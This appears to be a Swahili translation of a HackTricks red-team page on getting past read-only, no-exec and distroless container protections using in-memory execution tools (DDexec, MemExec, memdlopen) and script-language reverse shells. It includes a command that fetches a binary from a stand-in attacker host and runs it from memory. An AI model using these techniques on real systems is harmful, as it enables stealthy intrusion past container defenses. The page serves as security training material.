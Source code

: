 # Kupita ulinzi wa FS: soma tu / hakuna-kutekelezwa / Distroless

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa katika HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Video

Katika video zifuatazo unaweza kupata maelezo zaidi juu ya mbinu zilizotajwa kwenye ukurasa huu:

* [**DEF CON 31 - Kuchunguza Ubadilishaji wa Kumbukumbu ya Linux kwa Upelelezi na Kuepuka**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Uvamizi wa siri na DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Skena ya soma tu / hakuna-kutekelezwa

Inazidi kuwa kawaida kupata mashine za linux zilizounganishwa na **ulinzi wa mfumo wa faili wa soma tu (ro)**, haswa kwenye vyombo. Hii ni kwa sababu kuendesha chombo na mfumo wa faili wa soma tu ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** kwenye `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata ikiwa mfumo wa faili umefungwa kama soma tu, **`/dev/shm`** bado itakuwa inaweza kuandikwa, kwa hivyo sio kweli hatuwezi kuandika chochote kwenye diski. Walakini, saraka hii itakuwa **imefungwa na ulinzi wa hakuna-kutekelezwa**, kwa hivyo ikiwa unapakua faili ya binary hapa, **hutaweza kuitekeleza**.

{% hint style="warning" %}
Kutoka kwa mtazamo wa timu nyekundu, hii inafanya kuwa **ngumu kupakua na kutekeleza** faili za binary ambazo hazipo tayari kwenye mfumo (kama backdoors au watafutaji kama `kubectl`).
{% endhint %}

## Kupita kwa urahisi: Scripts

Tafadhali kumbuka kuwa nilitaja faili za binary, unaweza **kutekeleza skripti yoyote** ikiwa tu msindikaji yupo ndani ya mashine, kama **skripti ya shell** ikiwa `sh` iko au **skripti ya python** ikiwa `python` imefungwa.

Hata hivyo, hii pekee haitoshi kuendesha faili yako ya binary backdoor au zana nyingine za binary ambazo unaweza kuhitaji kuendesha.

## Kupita kwa Kumbukumbu

Ikiwa unataka kutekeleza faili ya binary lakini mfumo wa faili haikuruhusu hilo, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kumbukumbu**, kwani **ulinzi hauna athari huko**.

### Kupita kwa FD + exec syscall

Ikiwa una injini za skripti yenye nguvu ndani ya mashine, kama vile **Python**, **Perl**, au **Ruby**, unaweza kupakua faili ya binary ili kuitekeleza kutoka kumbukumbu, kuichukua na kuweka kwenye maelezo ya faili ya kumbukumbu (`create_memfd` syscall), ambayo hayatalindwa na ulinzi huo na kisha kuita **syscall ya exec** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kumpitisha faili ya binary na itazalisha skripti kwa lugha iliyotajwa na **binary iliyopunguzwa na kubadilishwa kuwa msimbo wa b64** pamoja na maagizo ya **kudecode na kufuta kubadilisha** kwenye **fd** iliyoundwa kwa kuita syscall ya `create_memfd` na wito wa syscall ya **exec** kuikimbia.

{% hint style="warning" %}
Hii haifanyi kazi kwenye lugha zingine za skripti kama PHP au Node kwa sababu hawana njia yoyote ya msingi ya kuita syscalls za moja kwa moja kutoka kwenye skripti, kwa hivyo haiwezekani kuita `create_memfd` kuunda **fd ya kumbukumbu** kuhifadhi faili ya binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwani hautaruhusiwa kuikimbia kwa sababu ya **ulinzi wa hakuna-kutekelezwa** utatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuwezesha **kurekebisha kumbukumbu ya mchakato wako mwenyewe** kwa kubadilisha **`/proc/self/mem`** yake.

Kwa hivyo, **kudhibiti msimbo wa mkutano** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **kutekeleza msimbo wowote wa aina yoyote**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** msimbo wako mwenyewe wa **shellcode** au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa habari zaidi kuhusu mbinu hii angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua inayofuata ya asili ya DDexec. Ni **DDexec shellcode demonised**, kwa hivyo kila wakati unapotaka **kuendesha binary tofauti** hauitaji kuzindua DDexec tena, unaweza tu kuendesha shellcode ya memexec kupitia mbinu ya DDexec na kisha **kuwasiliana na deamon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kuendesha binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa lengo kama la DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu njia rahisi ya kupakia binaries kwenye kumbukumbu ili kuziendesha baadaye. Inaweza hata kuruhusu kupakia binaries na tegemezi.

## Kupitisha Distroless

### Ni nini distroless

Vyombo vya distroless vina **vipengele vichache sana vinavyohitajika kuendesha programu au huduma maalum**, kama maktaba na tegemezi za runtime, lakini havijumuishi vipengele vikubwa kama meneja wa pakiti, shell, au zana za mfumo.

Lengo la vyombo vya distroless ni **kupunguza eneo la shambulio la vyombo** kwa kuondoa vipengele visivyohitajika na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika chombo cha distroless unaweza **hata usipate `sh` au `bash`** kupata shell ya kawaida. Pia hutapata binaries kama vile `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

{% hint style="warning" %}
Kwa hivyo, hautaweza kupata **reverse shell** au **kuchunguza** mfumo kama kawaida.
{% endhint %}

Hata hivyo, ikiwa chombo kilichoharibiwa kinatumia mfumo wa flask kwa mfano, basi python imewekwa, na kwa hivyo unaweza kupata **Python reverse shell**. Ikiwa inatumia node, unaweza kupata Node rev shell, na vivyo hivyo na **lugha nyingine za scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuchunguza mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna ulinzi wa **`read-only/no-exec`**, unaweza kutumia reverse shell yako kudanganya mfumo wa faili na **kuendesha** binaries.

{% hint style="success" %}
Hata hivyo, katika vyombo kama hivi, ulinzi huu kawaida utakuwepo, lakini unaweza kutumia **mbinu za utekelezaji wa kumbukumbu za awali kuzipita**.
{% endhint %}

Unaweza kupata **mifano** ya jinsi ya **kutumia baadhi ya udhaifu wa RCE** kupata **reverse shells** za lugha za scripting na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
